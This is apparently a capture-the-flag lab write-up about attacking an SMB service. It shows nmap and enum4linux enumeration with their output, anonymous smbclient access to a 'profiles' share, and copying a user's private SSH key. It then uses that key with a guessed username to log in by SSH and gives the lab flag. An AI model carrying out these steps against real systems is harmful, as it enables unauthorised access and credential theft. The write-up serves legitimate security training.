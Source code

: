 # Server Message Block

- [Overview](#overview)
- [Enumeration](#Enumeration)
  - [Steps For Enumeration](#steps-for-enumeration)
    - [NMAP](#nmap)
    - [Enum4Linux](#enum4linux)
- [Exploitation](#exploitation)
  - [SMB Client](#smbclinet)
  - [CLI](#cli)
  - [Pwnage](#Pwnage)
  - [Flag](#flag)

## Overview

- A client-server communication protocol used for sharing access to files, printers, serial ports and other network resources.
- Known as a response-request protocol.
  - Transmits multiple messages between the client and server to establish a connection.
- Clients connect over NetBIOS TCP/IP

### Enumeration

- The process of gathering info on a target to find potential attack.
  - Usernames, passwords, network info, hostnames, app data, services, etc.
- There are typically SMB share drives on a server that can be connected to for use of transferring files.
- Can also be a great starting point for discovering sensitive data.

#### Steps for enumeration

##### Nmap

1.  CLI

- Input:

  ```bash
  sudo nmap -p- -A -sV -vv -oA nmap/ 10.10.157.118
  ```

- Output:

  ```bash
  PORT    STATE SERVICE     VERSION
  22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   2048 91:df:5c:7c:26:22:6e:90:23:a7:7d:fa:5c:e1:c2:52 (RSA)
  |   256 86:57:f5:2a:f7:86:9c:cf:02:c1:ac:bc:34:90:6b:01 (ECDSA)
  |_  256 81:e3:cc:e7:c9:3c:75:d7:fb:e0:86:a0:01:41:77:81 (ED25519)
  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
  No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
  Host script results:
  |_clock-skew: mean: 0s, deviation: 1s, median: -1s
  |\_nbstat: NetBIOS name: POLOSMB, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
  | smb-os-discovery:
  | OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
  | Computer name: polosmb
  | NetBIOS computer name: POLOSMB\x00
  | Domain name: \x00
  | FQDN: polosmb
  |_ System time: 2021-04-27T01:41:41+00:00
  | smb-security-mode:
  | account*used: guest
  | authentication_level: user
  | challenge_response: supported
  |* message*signing: disabled (dangerous, but default)
  | smb2-security-mode:
  | 2.02:
  |* Message signing enabled but not required
  | smb2-time:
  | date: 2021-04-27T01:41:40
  |\_ start_date: N/A
  ```

  - There are 3 open ports
    - **22**: ssh
    - **139/443** : smb
  - OS Detected
    - **OS: Windows 6.1**

##### Enum4Linux

Enumerate SMB shares on both win and Linux systems

- **Usage:** enum4linux [options] ip

| TAG  | FUNCTION                                    |
| ---- | ------------------------------------------- |
| -U   | get userlist                                |
| -M   | get machine list                            |
| -N   | get namelist dump (different from -U and-M) |
| -S   | get sharelist                               |
| -P   | get password policy information             |
| -G   | get group and member list                   |
| -A   | all of the above (full basic enumeration)   |

1. CLI
   Input

   ```bash
   $ enum4linux -A 10.10.157.118
   ```

   Output: Notice, the shares that are listed

   ```bash
   [+] Attempting to map shares on 10.10.157.118
   //10.10.157.118/netlogon        [E] Can't understand response:
   tree connect failed: NT_STATUS_BAD_NETWORK_NAME
   //10.10.157.118/profiles        Mapping: OK, Listing: OK
   //10.10.157.118/print$  Mapping: DENIED, Listing: N/A
   //10.10.157.118/IPC$    [E] Can't understand response:
   NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
   ```

   - **/profiles** is an available share

   The name of the workgroup here is simply WORKGROUP

   ```bash
   [+] Got domain/workgroup name: WORKGROUP
   ```

   OS information can be gathered

   ```bash
   =======================================
   |    OS information on 10.10.157.118    |
   =======================================
   [+] Got OS info for 10.10.157.118 from smbclient:
   [+] Got OS info for 10.10.157.118 from srvinfo:
         POLOSMB        Wk Sv PrQ Unx NT SNT polosmb server (Samba, Ubuntu)
         platform_id     :       500
         os version      :       6.1
         server type     :       0x809a03
   ```

   - **Name**: POLOSMB
   - **OS Version:** 6.1

### Exploitation

Although there are CVE's available that will allow one to gain RCE, we are more likely to encounter a situation where there's a misconfiguration on the system.

With this machine, we will be exploiting anonymous SMB share access. A common misconfiguration that can allow us to gain info that will lead to a shell.

Since we are trying to access an SMB share, we need a client to access resources on servers.

##### SMBClinet

We will use this too because it's part of the default samba suite.

- **Usage:** smbclient //IP/SHARE
  -U [name] : to specify the user
  -p [port] : to specify the port

##### CLI

- Input:

  ```bash
  $ smbclient //10.10.157.118/profiles
  ```

- Output:
  As a result, we were able to **log in anonymously** and navigate through the profiles share. Using the ls command, we can see a users **/home directory**.

- Findings:
  - **Work From Home.txt**: A txt file with a message from IT containing **work from home information** and the **users First and Last name, John Cactus**.
  - **.ssh/id_rsa**: Copied to my local machine. Chmod to 600.

##### Pwnage

- Created a wordlist for the users potential ssh login

```txt
- jc
- johncactus
- john.cactus jc
- jcactus
- j.cactus
- john
- cactus
```

- Command

```bash
ssh -i id_rsa cactus@10.10.157.118
```

##### Flag

```bash
THM{smb_is_fun_eh?}
```
